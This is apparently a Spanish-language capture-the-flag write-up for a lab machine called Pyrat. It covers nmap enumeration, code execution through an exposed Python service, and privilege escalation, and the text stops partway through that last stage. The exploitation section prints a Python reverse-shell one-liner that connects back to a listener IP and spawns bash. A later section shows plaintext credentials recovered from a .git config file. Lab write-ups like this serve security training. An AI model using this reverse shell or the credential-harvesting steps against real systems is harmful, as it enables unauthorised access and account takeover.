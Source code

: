 # Introducción

Pyrat recibe curiosas respuestas del servidor HTTP, gracias a esto tenemos una vulnerabilidad de ejecución de código con python. Crafteando nuestro propio payload, es posible ganar shell en la máquina. Dentro de los directorios, el autor tiene que recuperar los archivos del usuario con las credenciales de acceso.

# Conectivdad

![image](https://github.com/user-attachments/assets/90129f4d-d4f1-4170-947c-fbe9d6032629)

# Enumeración

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.236.19
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-24 09:41 GMT
Nmap scan report for 10.10.236.19
Host is up (0.031s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

- 22 / SSH
- 8000 / HTTP - Simple HTTP/0.6

Si probamos a conectarnos a la página, aunque sea con curl, netcat o nc 

![image](https://github.com/user-attachments/assets/6b5db52f-f3c7-4abc-a437-501b0d390cc0)

Vamos a ver si encontramos algun vector

Si nos metemos vía telnet

```
telnet ip puerto
```

COmprobamos comandos y por ejemplo si metemos un print("hello") nos saca un print con lo cuál yo metería una rev shell en python directmaente

Podemos hacerlo vía nc también si queremos no hay problema, nos vamos al reverse shell generator e intenramos sacarla, seguramente nos de eror por que como ya estamos dentro de python deberemos quitar los primero argumentos y que quede tal que así:

# Explotación

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.172.19",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

Una vez tengamos el listener estaremos dentro de la máquina y podremos enumerar

Si vamos enumerando archivos principales como el /opt por ejemplo encontraremos información relevante.

Primero de todo nos encontraremo en la ruta root, yo he hecho un listener con rlwrap osea que no tengo la necesidad de upgradear la shell, posteriormente enumeraremos por ejemplo opt ls /opt

Encotramos un fichero llamado /dev y dentro el .git

Aquí he encontrado el archivo config

```
www-data@Pyrat:/opt/dev/.git$ cat config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
    	name = Jose Mario
    	email = josemlwdf@github.com

[credential]
    	helper = cache --timeout=3600

[credential "https://github.com"]
    	username = think
    	password = _TH1NKINGPirate$_
```

Con estas credenciales podemos entrar a github, vamos a probar a hacer un su think porque en el directorio home esta este usuario

Estamos dentro de think

Sacamos la flag de usuario

# Escala de privilegios

En sudo -l -l vemos que no tenemos ningún acceso de sudo

Volviendo a lo anterior vemos que como era un archivo git vamos a jugar con lo mismo de git

```
think@Pyrat:/opt/dev$ git status
git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
think@Pyrat:/opt/dev$
```



